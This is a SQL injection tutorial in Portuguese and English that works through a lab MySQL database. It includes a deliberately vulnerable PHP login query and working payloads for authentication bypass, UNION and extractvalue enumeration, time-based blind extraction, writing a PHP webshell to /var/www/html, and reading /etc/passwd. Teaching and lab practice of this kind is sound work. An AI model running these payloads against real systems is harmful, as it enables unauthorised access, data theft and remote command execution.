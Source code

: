 # SQL Injection

O SQL injection, é uma das técnicas de vulnerabilidades web mais conhecida. Ela consiste em basicamente passar uma query SQL em um input que se o banco de dados não tiver um tratamento correto dessa entrada, pode acabar resultado em um vetor de ataque caso essa query seja maliciosa.

## Basic Bypass Authentication

Vamos supor que o backend trata a entrada de um login da seguinte forma abaixo.

```php
$user = $_POST['user'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE user = '$user' AND pass '$password'"; 
```

O problema é que a query que irá para o banco de dados não está sendo filtrada corretamente, passando os parâmetros exatamente como o usuário digita e isso pode ocasionar a vulnerabilidade.

Vamos então utilizar o payload mais básico para explorar essa falha. A ideia a seguir, é utilizar o campo do usuário para bypassar a consulta. Primeiro temos que fechar as aspas simples e utilizar uma condição de **ou** para que assim a query retorne **true** e por fim comentar o resto para que seja ignorado, com isso irá trazer os resultados no banco de dados. O payload final fica da seguinte forma: `' or 1=1 #` ou `' or 1=1 --`. (_o comentário # e -- varia de acordo com o banco de dados_.)

Com isso, no banco de dados vai retornar o primeiro usuário que a consulta buscar, autenticando assim na aplicação com este usuário.

```sql
SELECT * FROM users WHERE user = '' or 1=1 -- ' AND pass 'password123" 
```

## Error-based SQL Injection

Esse é um tipo de injeção que retorna um erro para o usuário. Para triggar este erro, podemos passar, por exemplo, uma aspas simples para ver o que a aplicação retorna (essa aspas simples irá fechar a consulta no parâmetro que for passado). Se for vulnerável, geralmente provavelmente irá retornar uma mensagem de erro do tipo `Search SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax;`.

Com isso, podemos utilizar o `union` do SQL para unir uma nova consulta, e passar um %23 que significa o caractere # encodado, já que estamos enviando essas informações pela url (irá comentar o resto da query que estiver no banco). Além do **"**#", poderia ser passado também um ponto e vírgula ou uma aspas simples, depende de como a aplicação foi feita.

```
' or 1=1 union select 1; #
```

<div data-full-width="false"><figure><img src="../.gitbook/assets/error-based-sqli-1.png" alt=""><figcaption></figcaption></figure></div>

Assim, conseguimos descobrir a quantidade de colunas que possui, podemos tentar ir aumentando até não retornar nenhum erro.

Nesse caso, podemos descobrir que a quantidade de colunas na tabela de produtos são no total 6. Podemos perceber também que é refletido os valores que inserimos sendo criado uma nova visualização na consulta.

<figure><img src="../.gitbook/assets/error-based-sqli-2.png" alt=""><figcaption></figcaption></figure>

A consulta final ficará assim, sendo completamente correta e com isso retorna as informações.

```sql
SELECT * FROM products WHERE name like '%' or 1=1 union select 1, 2, 3, 4, 5, 6; #%'
```

<figure><img src="../.gitbook/assets/error-based-sqli-3 (1).png" alt=""><figcaption></figcaption></figure>

Agora que conseguimos descobrir corretamente a quantidade de colunas e fazer a consulta funcionar como queríamos, podemos tirar vantagem disso para buscar informações do banco de dados, podemos usar funções do MySQL (banco de dados utilizado) como `user()`, `database()`, `version()` entre outras.

<figure><img src="../.gitbook/assets/error-based-sqli-4.png" alt=""><figcaption></figcaption></figure>

Podemos agora buscar na tabela `information_schema` pela tabela que descobrirmos anteriormente.

```sql
' union select 1, table_name, 3, 4, 5, 6 from information_schema.tables WHERE TABLE_SCHEMA="lab"; #
```

<figure><img src="../.gitbook/assets/error-based-sqli-5.png" alt=""><figcaption></figcaption></figure>

Uma vez que descobrimos o nome das tabelas, podemos ver que existe a tabela `users`. Com isso, nós conseguimos descobrir as colunas:

```sql
' union select 1, column_name, 3, 4, 5, 6 from information_schema.columns where TABLE_SCHEMA="lab" and TABLE_NAME="users"; #
```

<figure><img src="../.gitbook/assets/error-based-sqli-6.png" alt=""><figcaption></figcaption></figure>

Agora que já sabemos quais os nome das colunas, podemos fazer a busca diretamente na tabela de `users`.

<figure><img src="../.gitbook/assets/error-based-sqli-7.png" alt=""><figcaption></figcaption></figure>

Pronto! Dessa forma que conseguimos explorar o Error-based SQL Injection.

### MySQL Error-Based SQL Injection Via ExtractValue Function

This is a specific attack technique that uses MySQL’s `extractvalue` function to access sensitive data from the database. ExtractValue is a MySQL function commonly used to extract data from XML documents. It takes two arguments: an XML document and an XPath expression. The function returns the value specified by the XPath query within the XML document.

Attackers can exploit this vulnerability by crafting malicious XPath expressions that, when processed by the `extractvalue` function, trigger an error and leak information about the database. Let's take a look how we can extract the database name:

```
extractvalue("something",concat(0x0a, database())); #
```

This payload injects the `database()` system variable into the XPath expression, causing MySQL to generate an error that reveals the database name.

<figure><img src="../.gitbook/assets/error-based-sqli-8.png" alt=""><figcaption></figcaption></figure>

We can also extract the table name from `information_schema`:

```
' and extractvalue("something",concat(0x0a, (select table_name from information_schema.tables WHERE TABLE_SCHEMA='lab' limit 0,1))); #
```

<figure><img src="../.gitbook/assets/error-based-sqli-9.png" alt=""><figcaption></figcaption></figure>

We can take a look at the database to see what the query it will look like:

<figure><img src="../.gitbook/assets/error-based-sqli-10.png" alt=""><figcaption></figcaption></figure>
## SQL Injection Time Based Blind

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used. To exploit it we can use `substring` function to test each character and check it that query returns true (it will wait for 3 seconds), if true, we can confirm the first character and we will do with the next one and so on.

 ```
' or 1=1 union select 1, 2, if(substring((select database()), 1, 1)="l", sleep(3), NULL), 4, 5, 6; #

' or 1=1 union select 1, 2, if(substring((select database()), 2, 1)="a", sleep(3), NULL), 4, 5, 6; #

' or 1=1 union select 1, 2, if(substring((select database()), 3, 1)="b", sleep(3), NULL), 4, 5, 6; #
```

## Webshell

Quando encontramos uma falha de SQL Injection, também conseguimos gravar uma webshell dentro do servidor e ganhar um acesso.

```
' or 1=1 union select 1, 2, "<?php system($_GET['cmd']); ?>", 4, 5, 6 into outfile "/var/www/html/cmd.php"; #
```

## Reading file

```
' or 1=1 union select 1, 2, LOAD_FILE('/etc/passwd'), 4, 5, 6; #
```

